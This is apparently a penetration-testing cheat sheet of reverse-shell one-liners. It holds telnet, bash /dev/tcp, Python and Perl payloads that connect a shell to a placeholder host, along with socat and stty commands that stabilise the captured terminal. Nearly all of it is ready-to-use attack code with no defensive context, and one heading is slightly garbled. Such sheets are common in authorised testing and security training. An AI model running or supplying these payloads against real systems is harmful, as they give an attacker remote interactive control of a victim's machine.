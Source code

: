 Shell stabilisation
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
[CTRL+Z]
stty raw -echo; fg 
```

Fixing terminal size
```bash
stty -a
stty -rows 48 -columns 120
```

## Telnet
```bash
TF=$(mktemp -u);mkfifo $TF && telnet 10.10.10.10 9001 0<$TF | /bin/sh 1>$TF
```

## Bash

```bash
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/$IP/$PORT <&1'
```

For Piped Bash on download of Bash.py  using environment variables.
```bash
export RHOST="10.10.10.10";export RPORT=9999;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```

## Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

File version
```python
import socket, subprocess,os

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("$IP", $PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh", "-i"])
```

## Perl

```perl
perl -e 'use Socket;$i="$IP";$p=$PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
